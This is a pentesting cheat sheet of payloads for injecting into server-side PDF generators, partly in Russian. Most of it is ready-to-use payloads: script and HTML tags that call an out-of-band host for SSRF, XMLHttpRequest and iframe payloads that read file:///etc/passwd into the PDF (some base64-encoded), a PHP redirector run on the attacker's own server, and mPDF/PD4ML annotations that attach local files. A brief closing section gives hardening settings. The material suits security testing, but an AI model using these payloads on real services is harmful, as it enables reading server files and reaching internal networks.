 # PDS Injection
- Get current path
```javascript
<script>document.write(window.location)</script>
```

## SSRF
- `<img src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest1"/>`
- `<link rel="stylesheet" href="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest2" >`
- `<iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>`

## LFI
```javascript
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>
```
**With encoding**
```javascript
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(btoa(this.responseText))
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>
```
**linebreaks every 100 characters**
```javascript
<script>
	function addNewlines(str) {
		var result = '';
		while (str.length > 0) {
		    result += str.substring(0, 100) + '\n';
			str = str.substring(100);
		}
		return result;
	}

	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(addNewlines(btoa(this.responseText)))
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>
```

## Without JS execution
```html
<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">
```

### With redirect
1. Создать на своем сервере следующий файл
```php
<?php header('Location: file://' . $_GET['url']); ?>
```
2. Вставить следующую полезную нагрузку
```html
<iframe src="http://172.17.0.1:8000/redirector.php?url=%2fetc%2fpasswd" width="800" height="500"></iframe>
```

## Аннотации
- mPDF
```html
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
```
- PD4ML
```html
<pd4ml:attachment src="/etc/passwd" description="LFI" icon="Paperclip"/>
```

## Preventing
Many PDF generation libraries default the configuration to allow access to external resources. Setting this option to `false` effectively prevents SSRF vulnerabilities. In the DomPDf library, this option is called `enable_remote`.<p>
In some libraries, there are other configuration options that enable the execution of JavaScript and even PHP code on the server. While using features like these might be helpful for the dynamic generation of PDF files, they are also extremely dangerous, as the injection of PHP code can lead to remote code execution (RCE). For example, the `DomPDF` library has a configuration option called `isPhpEnabled` that enables PHP code execution; this option should be disabled because it's a security risk.

### Settings
- JavaScript code should not be executed under any circumstances
- Access to local files should be disallowed
- Access to external resources should be disallowed or limited if it is required
